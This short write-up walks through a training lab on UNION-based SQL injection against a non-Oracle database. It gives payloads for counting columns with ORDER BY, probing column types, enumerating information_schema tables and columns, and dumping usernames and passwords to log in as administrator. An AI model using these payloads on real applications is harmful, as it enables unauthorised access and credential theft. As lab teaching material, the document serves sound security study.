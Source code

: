 
### SQL injection attack, listing the database contents on non-Oracle databases : PRACTITIONER

---

First, we find out the number of columns in the output query using the `ORDER BY` technique. keep increasing the index until an error is recieved.
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
- Get an error at 3, hence we have 2 columns.

Next, we need to find the data types of these columns.
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
- Both are text fields.

Next we need to find the user table in order to get the usernames and passwords. Using the `information_schema` database, listing the `TABLE_NAME`s of all tables.
```
' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables-- 
```

Try the `users_oxepzf` table and list the columns of that table.
```
' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name='users_oxepzf'--
```

> We get to column names as output:
* username_kscelq
* password_lyarmh

We can now construct a normal query to get the data in these columns.
```
' UNION SELECT username_kscelq, password_lyarmh FROM users_oxepzf -- 
```

This lists the usernames and passwords of all users present in the `users_oxepzf` table.

![adminpassword](./screenshots/pass.png)

We can then use the administrator and his password to login as admin and complete the lab.

---
